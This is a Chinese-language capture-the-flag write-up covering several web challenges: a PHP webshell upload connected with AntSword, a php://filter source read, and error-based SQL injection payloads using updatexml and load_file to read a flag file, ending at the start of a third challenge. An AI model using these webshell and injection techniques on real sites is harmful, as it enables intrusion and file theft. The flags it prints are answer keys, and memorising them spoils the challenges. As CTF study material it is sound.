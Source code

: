 ![upload successful](./images/pasted-421.png)
一进去是一个注册账号的页面，正常注册一个admin@qq.com

![upload successful](./images/pasted-422.png)
发现一个文件上传，先试试php小马

![upload successful](./images/pasted-423.png)
成功上传，在新页面打开此图片并抓包

![upload successful](./images/pasted-424.png)
找到文件位置，蚁剑连接

![upload successful](./images/pasted-425.png)
![upload successful](./images/pasted-426.png)
拿下flag

# [CISCN2019 华北赛区 Day1 Web5]CyberPunk1

![upload successful](./images/pasted-427.png)
首先通过伪协议拿到以下几个文件的源码`index.php,change.php,search.php,confirm.php`

伪协议的格式如下：`php://filter/read=convert.base64-encode/resource=`

![upload successful](./images/pasted-428.png)

爆:<code>1' where user_id=updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1)#</code>

![upload successful](./images/pasted-429.png)
同理爆flag：
<code>
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
</code>
errorXPATH syntax error: '~flag{bad5f542-5d06-4898-80fd-1~'
![upload successful](./images/pasted-430.png)
<code>
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60)),0x7e),1)#
</code>
errorXPATH syntax error: '~16fd3b181382} ~'
![upload successful](./images/pasted-431.png)
拿到flag{bad5f542-5d06-4898-80fd-16fd3b181382}

# [红明谷CTF 2021]write_shell1

![upload successful](./images/pasted-432.png)
代码审计题，查了一下$_SERVER['REMOTE_ADDR']：指的是正在浏览当前页面用户的 IP 地址。
